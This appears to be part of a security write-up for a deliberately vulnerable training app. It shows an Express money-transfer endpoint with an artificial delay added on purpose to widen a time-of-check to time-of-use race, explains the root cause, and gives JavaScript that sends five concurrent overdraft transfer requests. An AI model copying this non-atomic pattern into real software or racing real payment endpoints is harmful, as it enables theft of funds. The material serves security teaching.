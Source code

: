 ```javascript
      }
      
      if (!sender) {
        return res.status(404).json({ error: 'Sender not found' });
      }
      
      if (sender.balance < parsedAmount) {
        return res.status(400).json({ error: 'Insufficient funds' });
      }
      
      // Add an artificial delay to make race condition easier to exploit
      setTimeout(() => {
        // Update sender balance
        db.run(
          'UPDATE users SET balance = balance - ? WHERE id = ?',
          [parsedAmount, from],
          function(err) {
            // Update receiver balance, create transaction record...
          }
        );
      }, 500); // 500ms delay to make race condition exploitable
    });
  } catch (error) {
    return res.status(500).json({ error: 'Transfer failed' });
  }
});
```

### Technical Details

- **Root Cause**: Lack of proper transaction isolation with a time-of-check to time-of-use (TOCTOU) gap
- **Vulnerability Pattern**: Balance check and update are not atomic operations
- **Impact**: Allows users to transfer more money than they actually have

### Exploitation

1. **Create multiple concurrent transfer requests**:
   ```javascript
   // Assuming the user has $1000 balance
   // Send 5 simultaneous requests for $800 each
   for (let i = 0; i < 5; i++) {
     fetch('/api/quick-transfer', {
       method: 'POST',
       headers: {
         'Content-Type': 'application/json',
         'Authorization': token
       },
       body: JSON.stringify({
         to: recipientId,
         amount: 800
       })
     });
   }
   ```
